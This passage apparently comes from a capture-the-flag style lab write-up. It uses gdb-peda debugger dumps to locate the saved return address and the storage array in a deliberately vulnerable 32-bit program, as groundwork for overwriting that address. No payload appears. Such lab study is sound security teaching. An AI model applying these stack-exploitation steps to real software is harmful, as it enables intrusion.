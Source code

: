 ```nasm
EDI: 0x0
EBP: 0x0
ESP: 0xbffff6bc --> 0xb7e3ca83 (<__libc_start_main+243>:    mov    DWORD PTR [esp],eax)
EIP: 0x8048c3b (<main+553>: ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048c38 <main+550>:    pop    ebx
   0x8048c39 <main+551>:    pop    edi
   0x8048c3a <main+552>:    pop    ebp
=> 0x8048c3b <main+553>:    ret
   0x8048c3c:   xchg   ax,ax
   0x8048c3e:   xchg   ax,ax
   0x8048c40 <__libc_csu_init>: push   ebp
   0x8048c41 <__libc_csu_init+1>:   push   edi
[------------------------------------stack-------------------------------------]
0000| 0xbffff6bc --> 0xb7e3ca83 (<__libc_start_main+243>:   mov    DWORD PTR [esp],eax)
0004| 0xbffff6c0 --> 0x1
0008| 0xbffff6c4 --> 0xbffff758 --> 0x0
0012| 0xbffff6c8 --> 0xbffff7bc --> 0x0
0016| 0xbffff6cc --> 0xb7feccea (<call_init+26>:    add    ebx,0x12316)
0020| 0xbffff6d0 --> 0x1
0024| 0xbffff6d4 --> 0xbffff754 --> 0xbffff888 --> 0x0
0028| 0xbffff6d8 --> 0xbffff6f4 --> 0x49323f3
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048c3b in main ()
```

The return address is `0xb7e3ca83`. Now, let's look for the index **1** of `data[STORAGE_SIZE]`. 

Here we can simply set a breakpoint where *main()* calls the *store_number()* function and check **ESP**. Why? Because *store_number()* (as well as *read_number()*) takes a pointer to `data[]` as argument.

```nasm
gdb-peda$ break *main+341
Breakpoint 1 at 0x8048b67
gdb-peda$ run
Starting program: /levels/lab03/lab3A
----------------------------------------------------
  Welcome to quend's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   quend has reserved some storage for herself :>
----------------------------------------------------

Input command: store
[----------------------------------registers-----------------------------------]
EAX: 0xbffff508 --> 0x0
EBX: 0xbffff508 --> 0x0
ECX: 0x65 ('e')
EDX: 0xbffff698 ("store")
ESI: 0x0
EDI: 0xbffff698 ("store")
EBP: 0xbffff6b8 --> 0x0
ESP: 0xbffff4f0 --> 0xbffff508 --> 0x0
EIP: 0x8048b67 (<main+341>: call   0x8048917 <store_number>)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```
